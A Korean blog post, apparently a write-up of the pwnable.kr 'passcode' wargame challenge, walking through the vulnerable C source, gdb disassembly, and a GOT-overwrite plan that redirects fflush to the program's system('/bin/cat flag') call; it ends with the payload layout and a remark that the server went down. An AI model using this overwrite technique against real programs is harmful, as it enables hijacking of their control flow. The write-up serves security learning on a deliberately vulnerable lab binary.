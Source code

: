 ```yaml
---
layout: post
title: ! "[pwnable.kr] Toddler's Bottle passcode"
excerpt_separator: <!--more-->
tags:
  - nalda
  - wargame
  - pwnable.kr
  - pwnable
  - Toddler's Bottle
---
```

**Problem description:**
>Mommy told me to make a passcode based login system.
>My initial C code was compiled without any error!
>Well, there was some compiler warning, but who cares about that?
>
>ssh passcode@pwnable.kr -p2222 (pw:guest)
<!--more-->

최근 여러가지 사정으로 Pwnable 문제와 씨름을 했었다..
한동안 공부한다고 열심히 끄적이기는 했으나, 2018년 죽음의 해를 보내다 보니 pwnable에 대한 감을 거의 다 잃어버렸다.

이참에 pwnable.kr 문제를 풀며 다시 공부해보기 위해 풀이를 작성하려 한다.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```
코드를 확인해 보면, 크게 main(), welcome(), login() 세 함수로 구분 돼 있다.
1. main()
  main 함수는 큰 역할 없이 welcome과 login 함수를 순서대로 호출 해 준다.
2. welcome()
  welcome 함수는 100byte만큼 char형 배열로 name을 입력 받는다.
3. login()
  main과 welcome 함수에선 특별한 내용이 없는걸로 미루어 login함수에서 어떠한 문제(?)가 발생하리라 생각된다.~~그리고 제일 길다.~~
  
###login()
  이 함수에서는 `int passcode1`과 `int passcode2`가 선언되어 있으며
  ```c
  if(passcode1==338150 && passcode2==13371337){
    printf("Login OK\n");
    system("/bin/cat flag");
  }
  ```
  위의 조건문을 통해 각각 338150, 13371337을 충족 시 flag 를 확인할 수 있다.

  처음엔 읭 간단하네 라는 생각을 하며... 실행을 했을 때
  ```
  passcode@ubuntu:~$ ./passcode
  Toddler's Secure Login System 1.0 beta.
  enter you name : nalda
  Welcome nalda!
  enter passcode1 : 338150
  Segmentation fault
  ```
  잉? 하며 소스를 다시 보았다.
  
  ```
  scanf("%d", passcode1);
  scanf("%d", passcode2);
  ```
  scanf가 요상하다 ^0^
  우리가 흔히 아는 scanf 사용법은 `scanf("%d", &passcode1)` 이런식으로 ---&---가 들어가 있어야 한다.
  
  이는 변수에 입력받은 값을 저장하는게 아닌, 변수명 자체가 주소로 인식되어 `Segmentation fault`가 발생하게 된당

  이 때, 문득 든 찝찝 한 name 배열의 100이나 되는 size...!

  바로 gdb 고고!
  ```
  (gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:	push   %ebp
   0x0804860a <+1>:	mov    %esp,%ebp
   0x0804860c <+3>:	sub    $0x88,%esp
   0x08048612 <+9>:	mov    %gs:0x14,%eax
   0x08048618 <+15>:	mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:	xor    %eax,%eax
   0x0804861d <+20>:	mov    $0x80487cb,%eax
   0x08048622 <+25>:	mov    %eax,(%esp)
   0x08048625 <+28>:	call   0x8048420 <printf@plt>
   0x0804862a <+33>:	mov    $0x80487dd,%eax
   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:	mov    $0x80487e3,%eax
   0x08048643 <+58>:	lea    -0x70(%ebp),%edx
   0x08048646 <+61>:	mov    %edx,0x4(%esp)
   0x0804864a <+65>:	mov    %eax,(%esp)
   0x0804864d <+68>:	call   0x8048420 <printf@plt>
   0x08048652 <+73>:	mov    -0xc(%ebp),%eax
   0x08048655 <+76>:	xor    %gs:0x14,%eax
   0x0804865c <+83>:	je     0x8048663 <welcome+90>
   0x0804865e <+85>:	call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:	leave
   0x08048664 <+91>:	ret
End of assembler dump.
  ```
 
  어셈 코드 중 `0x0804860c <+3>: sub    $0x88,%esp`  $esp에서 0x88만큼(136) 할당하게 된다.

  다른 정보들을 더 얻기위해 코드를 더 보자! 
  
  scanf 호출하여 name을 저장하는 공간을 보면 `0x08048643 <+58>:  lea    -0x70(%ebp),%edx` ebp-0x70위치에 저장합니다!

  이를 이용하여 passcode1을 조작할 수 있을 까 싶어 login 함수를 disassemble해보면!
  ```
  (gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave
   0x080485f0 <+140>:	ret
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
  ```
  이 중, `0x0804857c <+24>:  mov    -0x10(%ebp),%edx`를 보게되면 ebp-0x10의 위치에 값을 저장합니다.
  
  계산을 해보면...
  [ebp-0x70] - [ebp-10] = 0x60...즉, 96byte가 됩니다!
  name 배열이 100byte였던것을 미루어 보아 4byte만큼 임의의 값을 작성할 수 있다!

  ![]({{ site.baseurl }}/images/nalda/passcode/passcode_1.PNG)
  
  시나리오를 써보려 했을 때,

  아무리 짱구를 굴려봐도 `passcode1==338150&&passcode2==13371337`을 충족시킬 수 없었다...
  
  그 때 문득 들어온 `fflush(stdin);`...! passcode1입력 후 실행되는 이 라인을 `system(/bin/cat flag);`이 시작되는 주소로 바꾸면 어떨까 라는 시나리오가 떠올랐고!

  이를 수행하기 위해서는! `fflush()`의 GOT주소와 `system()`의 시작 주소를 알아야 한다!

  ---------------------------------------------------

  ```
  0x08048593 <+47>:	call   0x8048430 <fflush@plt> //disas login

  (gdb) x/i 0x8048430
   0x8048430 <fflush@plt>:	jmp    *0x804a004
  (gdb) x/i 0x804a004
   0x804a004 <fflush@got.plt>:	test   %al,%ss:(%eax,%ecx,1)
  ```
  fflush의 GOT주소는 0x804a004가 된다

  이제 system함수의 시작 위치를 보면
  ```
  0x080485de <+122>:	call   0x8048450 <puts@plt>
  0x080485e3 <+127>:	movl   $0x80487af,(%esp)
  0x080485ea <+134>:	call   0x8048460 <system@plt>
  ```
  puts 다음인 `0x080485e3`이 된다!

  자 이제 payload를 작성 해 보자면
  `a*96 + fflush의 GOT + system()` 함수이다


  아 pwnable.kr 서버터짐 ㅡㅡ 결과.......아 결과........
